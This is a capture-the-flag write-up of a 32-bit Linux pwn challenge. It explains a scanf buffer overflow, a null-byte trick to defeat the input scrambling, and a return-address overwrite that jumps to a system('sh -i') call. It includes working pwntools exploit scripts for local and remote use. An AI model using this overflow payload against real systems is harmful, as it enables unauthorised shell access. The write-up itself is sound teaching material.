

# Pwn #2 紅豆麵包 (Pwn, 600pts)
###### Author: Bachoo#0001

```
Please try it nc 0.tcp.ngrok.io 15027
```
File instruction
```
$ file magic 
magic: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=b688e262e32e6fa395829c92d117185e312c0386, not stripped
```

The Challenge involved a binary so first run the binary locally: 
```
$ ./magic
Welcome to Magic system!
Give me your name(a-z): bachoo
Your name is bachoo.
Give me something that you want to MAGIC: wizardry
r�� �/T�
```

## Looking for an overflow attack point

There are 2 input points, one which asks for your name and one that asks for what you want to "magic"?
I will use IDA to view the disassembly

for the first input point, it limits it to 11 characters and stays the same no matter what, the size is also consistent, so this input point does not meet the need for buffer overflow attacks
Moving onto the 2nd input point, it uses the **scanf** function, which is very dangerous since there is no overflow check, which is perfect for us
the "magic" function reads the user input, uses strlen to determine the length and calls "do_magic"
let’s investigate "do_magic"
the "do_magic" function, loops and messes up the input that we give randomly, then returns it. It relies on the fact that our characters that we input aren't blank, so no null terminators

# The "never_use" function
In this program, there is a function called "never_use", which directly executes **system("sh -i")** into command mode.
Therefore, we only need to find a way to let the program jump into this function.

The position of the function is **0x0804860D**
```
.text:0804860D                 public never_use
.text:0804860D never_use       proc near
.text:0804860D                 push    ebp
.text:0804860E                 mov     ebp, esp
.text:08048610                 sub     esp, 18h
.text:08048613                 mov     dword ptr [esp], offset asc_8048830 ; "sh -i"
.text:0804861A                 call    _system
.text:0804861F                 leave
.text:08048620                 retn
.text:08048620 never_use       endp
```
Now that we know what to do, the steps needed are:

* deceive strlen, to prevent from our attack from being xor'd
"A"*19+'\0'
* Then fill in 72-20=52 invalid characters
+"A"*52
* Fill in our attack payload, the reason why we don't use 0x0804860d is that 0d is return character, so we use the same line

+p32(0x08048613)
```
.text:08048613                 mov     dword ptr [esp], offset asc_8048830 ; "sh -i"
```

## Making attack.py

We use python's pwntools to attack
```
from pwn import *

context.log_level = 'debug'

p = process('./magic')
p.sendline('bread')
p.sendline('a'*19+'\0'+'a'*52+p32(0x08048613))
p.interactive()
```
After local authentication succeeds, we can attack the remote now
```
from pwn import *

context.log_level = 'debug'
#p = process('./magic')
p = remote('0.tcp.ngrok.io', port)
p.sendline('bread')
p.sendline('a'*19+'\0'+'a'*52+p32(0x08048613))
p.interactive()
```

we are in the system, now we can just navigate to the /home/ctf folder
```
cd /home/ctf
cat flag
```

The flag is "NiHwk{(^(エ)^)}"
